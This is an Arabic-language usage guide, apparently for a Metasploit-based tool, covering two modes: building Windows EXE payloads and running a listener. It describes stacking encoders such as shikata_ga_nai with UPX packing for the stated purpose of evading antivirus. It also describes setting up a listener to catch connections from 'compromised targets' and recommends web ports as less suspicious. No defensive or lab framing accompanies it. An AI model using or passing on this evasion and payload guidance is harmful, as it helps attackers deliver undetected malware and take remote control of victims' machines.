 ### 2. 🔹 EXE متقدم (Advanced Windows EXE)

**الغرض**: إنشاء EXE بخيارات تشفير وإخفاء متقدمة لتجاوز Antivirus

**صيغة الإدخال**:
```
LHOST LPORT OUTPUT_NAME ARCH ENCODERS UPX
```

**مثال**:
```
127.0.0.1 4444 advanced_payload x86 x86/shikata_ga_nai:5 true
```

**شرح المعاملات المتقدمة**:

#### معمارية النظام (ARCH):
- `x86`: للأنظمة 32-bit
- `x64`: للأنظمة 64-bit

#### المشفرات (ENCODERS):
- `x86/shikata_ga_nai:5` - تشفير 5 مرات (الأقوى)
- `x86/countdown:3` - تشفير 3 مرات
- `x86/fnstenv_mov:2` - تشفير 2 مرة
- يمكن دمج عدة مشفرات: `x86/shikata_ga_nai:5,x86/countdown:3`

#### ضغط UPX:
- `true`: تفعيل ضغط الملف (حجم أصغر، صعوبة تحليل)
- `false`: عدم الضغط (حجم أكبر، سرعة تنفيذ)

**النتيجة**: ملف EXE محمي ومشفر قادر على تجاوز معظم برامج الحماية

---

### 3. 🔹 مستمع (Listener)

**الغرض**: تشغيل مستمع Metasploit لاستقبال الاتصالات من الأهداف المخترقة

**صيغة الإدخال**:
```
LHOST LPORT
```

**أمثلة الاستخدام**:
```
0.0.0.0 4444        # الاستماع على جميع واجهات الشبكة
192.168.1.100 5555  # الاستماع على IP محدد فقط
10.0.0.5 8080       # استخدام منفذ ويب
```

**عناوين IP الشائعة**:
- `0.0.0.0`: الاستماع على جميع الواجهات
- `192.168.1.x`: الشبكة المحلية
- `10.0.0.x`: شبكات المؤسسات
- `127.0.0.1`: الاختبار المحلي فقط

**المنافذ المفضلة**:
- `4444, 5555`: منافذ Metasploit التقليدية
- `80, 443, 8080, 8443`: منافذ الويب (أقل اشتباهاً)
- `53, 22`: منافذ خدمات النظام
